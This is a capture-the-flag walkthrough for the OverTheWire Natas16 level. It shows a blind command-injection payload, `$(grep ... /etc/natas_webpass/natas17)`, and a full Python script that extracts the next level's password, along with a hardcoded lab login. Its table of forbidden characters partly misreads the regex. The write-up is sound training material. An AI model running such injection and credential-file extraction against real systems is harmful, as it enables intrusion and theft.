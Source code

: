 # 🔐 Natas16 Walkthrough

This level is similar to Natas15, but now we have **extra restrictions**!  
Check the [source code](http://natas16.natas.labs.overthewire.org/index-source.html):

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```
## 🚫 Forbidden Characters  

The following characters are **blocked**, so we can’t use them for command injection:  

| 1  | 2  | 3  | 4  | 5  | 6  | 7  | 8  | 9  | 10  |
|----|----|----|----|----|----|----|----|----|-----|
| `/` | `[` | `]` | `;` | `\|` | `&` | `'` | `"` | `\` | `` ` `` |




**Good news:**  The `$` character is **still allowed**—that’s our way in!  


 ## 🌀 Subshell

Since `` '/[;|&`\'"]/' `` are forbidden, we can’t directly inject multiple commands. Luckily, the `$()` syntax is allowed, which executes a command inside a subshell. A ***subshell*** is a way to execute a command inside another command in the shell. Whatever the subshell outputs can then be used or appended in the outer command.

<div align="center">
<img src="https://raw.githubusercontent.com/saladtopfive/OTWnatas-walkthrough/main/natas16/diagram-1.png" alt="Diagram">
</div>


## 🔍 Testing a character
Input:
```shell
$(grep e /etc/natas_webpass/natas17)squid
```


- If **e** is in the password, squid does not appear in the output. ✅

- If **e** is not, squid appears. ❌

This way, we can test each possible character in the password **without using the forbidden characters.** 


***Test:***


| INPUT    | OUTPUT |
| -------- | ------- |
| $(grep **e** /etc/natas_webpass/natas17)squid| None    |
| $(grep **a** /etc/natas_webpass/natas17)squid | squid, squid's, squidded, squidding, squids    |



Clearly, the password contains `e` and **doesnt** contain `a`. Now, as before we shall automate this process.

>[!IMPORTANT]
>We add `squid` at the end of the command solely to avoid printing the entire dictionary. The command itself would work the same without it, but in that case the full dictionary would be displayed, making it harder to analyze the website’s response due to the large number of returned strings.
## Python script

This script was written with readability in mind. I've added slightly altered version of the script to this directory which has some "animations" in the console log so, feel free to use that one.

```python
import requests
import string
import time

# =====================
# === CONFIGURATION ===
# =====================
url = "http://natas16.natas.labs.overthewire.org/"
authUsername = "natas16"
authPassword = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

# Possible characters in the password (letters + digits)
charData = string.ascii_letters + string.digits

# =====================================
# === STEP 1: Find valid characters ===
# =====================================

matchingCharData = ""  # This will hold characters that exist in the password

print("Step 1: Testing which characters exist in the password...\n")

for i in charData:
    # Create the payload using subshell injection.
    # "$(grep <char> /etc/natas_webpass/natas17)squid" will execute grep on the password file.
    # If <char> exists in the password, 'squid' will NOT appear in the response.
    injection = f"$(grep {i} /etc/natas_webpass/natas17)squid"
    tempUrl = f"{url}?needle={injection}&submit=Search"

    # Send the HTTP GET request with basic auth
    response = requests.get(tempUrl, auth=(authUsername, authPassword))

    # Check response for presence of 'squid'
    if 'squid' not in response.text:
        # Character exists in the password
        matchingCharData += i
        print(f"Valid character found: '{i}'")

print(f"\nPossible password characters: {matchingCharData}\n")

# ==========================================
# === STEP 2: Brute-force password order ===
# ==========================================

password = ""  # To build the password incrementally
print("Step 2: Brute-forcing password character by character...\n")

# Natas passwords are 32 characters long
while len(password) < 32:
    for char in matchingCharData:
        # Attempt to see if the password starts with the current guess
        attempt = password + char
        injection = f"$(grep ^{attempt} /etc/natas_webpass/natas17)squid"
        tempUrl = f"{url}?needle={injection}&submit=Search"

        response = requests.get(tempUrl, auth=(authUsername, authPassword))

        if 'squid' not in response.text:
            # Correct next character found
            password += char
            print(f"Password so far: {password}")
            break  # Move to next character

# Print final password
print(f"\nPassword for natas17: {password}")
```

The output should be your natas17 password! (:


